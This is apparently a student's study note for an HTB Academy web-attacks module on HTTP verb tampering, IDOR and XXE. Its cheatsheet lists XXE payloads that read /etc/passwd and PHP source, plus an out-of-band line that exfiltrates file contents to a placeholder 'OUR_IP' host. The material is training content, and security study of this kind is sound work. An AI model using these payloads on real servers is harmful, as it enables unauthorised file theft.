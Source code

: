 # Web Attacks

Tags: #🧑‍🎓
Related to:
See also:
Previous: [[HTB Academy]]

![[logo_web_attacks.png]]

This module covers three common web vulnerabilities, HTTP Verb Tampering, IDOR, and XXE, each of which can have a significant impact on a company's systems. We will cover how to identify, exploit, and prevent each of them through various methods.

### Cheatsheet

#### HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

#### IDOR

`Identify IDORS`
- In `URL parameters & APIs`
- In `AJAX Calls`
- By `understanding reference hashing/encoding`
- By `comparing user roles`

| **Command**   | **Description**   |
| --------------|-------------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

#### XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |

### Module Summary

As web applications' popularity keeps increasing, so do the number and types of attacks that web applications are vulnerable to. Many of the most common web attacks have been covered in other web modules already. This module will cover a few other important web exploitation techniques.

The module starts by covering `HTTP Verb Tampering` vulnerabilities that allow attacks to manipulate HTTP requests to access restricted web pages, which may give an attacker access to sensitive resources. The second topic covered is `Insecure Direct Object References (IDOR)` vulnerabilities. IDORs are among the most common vulnerabilities in web applications and allow attackers to easily view and leak other user's private data due to improper access controls. Finally, the module will cover `XML External Entity (XXE) Injection` vulnerabilities. These recently became among the top [10 most critical web vulnerabilities](https://owasp.org/Top10/), as XXE vulnerabilities may allow attackers to read local files stored on the server, gain remote code execution (RCE), or even cause a Denial of Service.

In addition to the above, the `Web Attacks` module will teach you the following:

-   `HTTP Verb Tampering`:
    -   What are HTTP Verb Tampering vulnerabilities?
    -   Examples of insecure configurations
    -   Detecting and exploiting HTTP Verb Tampering vulnerabilities
    -   Examples of secure serve configuration to prevent HTTP Verb Tampering vulnerabilities
-   `IDOR`:
    -   What are IDOR vulnerabilities, and how do they occur
    -   Examples of code vulnerable to IDOR
    -   Different types of IDOR vulnerabilities
    -   How to detect IDOR vulnerabilities
    -   Various methods of exploiting IDOR vulnerabilities
    -   Preventing IDOR vulnerabilities
-   `XXE`:
    -   What are XXE vulnerabilities, and how do they occur
    -   Examples of code vulnerable to XXE
    -   Identifying and exploiting XXE vulnerabilities
    -   Various XXE prevention techniques

* * * * *

This module is broken into sections with accompanying hands-on exercises to practice each of the tactics and techniques we cover. The module ends with a practical hands-on skills assessment to gauge your understanding of the various topic areas.

You can start and stop the module at any time and pick up where you left off. There is no time limit or "grading," but you must complete all of the exercises and the skills assessment to receive the maximum number of cubes and have this module marked as complete in any paths you have chosen.

As you work through the module, you will see example commands and command output for the various topics introduced. It is worth reproducing as many of these examples as possible to reinforce further the concepts presented in each section. You can do this in the `PwnBox` provided in the interactive sections or your virtual machine.

* * * * *

The module is classified as "`Medium`" and assumes a working knowledge of the Linux command line and an understanding of information security fundamentals. The module also assumes a basic understanding of web applications and web requests and will build on this understanding to teach how these vulnerabilities work and how to exploit them.

In addition to the above, a firm grasp of the following modules can be considered as prerequisites for the successful completion of this module:

-   Web Requests
-   Introduction to Web Applications
-   Using Web Proxies
-   Linux Fundamentals
-   Introduction to Bash Scripting